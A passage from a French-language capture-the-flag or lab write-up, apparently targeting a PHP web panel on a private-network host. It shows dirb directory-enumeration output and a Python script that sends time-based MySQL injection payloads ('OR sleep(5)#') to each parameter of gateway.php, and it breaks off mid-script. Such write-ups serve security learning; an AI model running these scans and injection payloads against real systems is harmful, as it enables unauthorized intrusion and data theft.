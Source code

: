 On a donc quelques méthodes qui nous serviront par la suite.  

Un scan du dossier */Panel/* avec *dirb* révèle d'autres pages web :  

```plain
$ ./dirb http://192.168.1.54/Panel/ wordlists/big.txt -X .php
---- Scanning URL: http://192.168.1.54/Panel/ ----
+ http://192.168.1.54/Panel/config.php (CODE:200|SIZE:0)                                                                                                                                                      
+ http://192.168.1.54/Panel/gateway.php (CODE:200|SIZE:0)                                                                                                                                                     
+ http://192.168.1.54/Panel/index.php (CODE:200|SIZE:234)                                                                                                                                                     
+ http://192.168.1.54/Panel/info.php (CODE:200|SIZE:2)                                                                                                                                                        
+ http://192.168.1.54/Panel/load.php (CODE:200|SIZE:0)                                                                                                                                                        
+ http://192.168.1.54/Panel/main.php (CODE:200|SIZE:4)                                                                                                                                                        
+ http://192.168.1.54/Panel/master.php (CODE:200|SIZE:385)                                                                                                                                                    
+ http://192.168.1.54/Panel/pagination.php (CODE:200|SIZE:90)                                                                                                                                                 
+ http://192.168.1.54/Panel/upload.php (CODE:200|SIZE:514)                                                                                                                                                    
+ http://192.168.1.54/Panel/viewer.php (CODE:200|SIZE:47)
```

Ces pages ne révèlent rien de bien intéressant. Le script d'upload semble ouvert mais n'indique pas si l'upload a bien fonctionné et ne donne pas le chemin vers le fichier uploadé.  

Premier coup de scalpel
-----------------------

Je reviens donc vers *gateway.php* : on sait maintenant comment chiffrer les paramètres mais on ne sait pas quels paramètres sont vulnérables.  

Pour cela j'ai écris un script qui teste plusieurs payloads d'injection MySQL time-based pour chaque paramètre (la fonction encrypt n'est pas affichée pour gagner de la place).  

La méthode time-based a été choisie car *gateway.ph*p ne semble retourner aucun contenu à priori :(  

```python
args = ['page', 'unm', 'cnm', 'query', 'spec', 'opt', 'view', 'var']
key = "test"

payloads = [' OR sleep(5)#', '" OR sleep(5)#', '\' OR sleep(5)#']
url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()

for a in args:
    for p in payloads:
        d = {
                "val": base64.b64encode(key),
                a: encrypt(p)
            }
        print "param = {0}, payload = {1}".format(a, p)
```
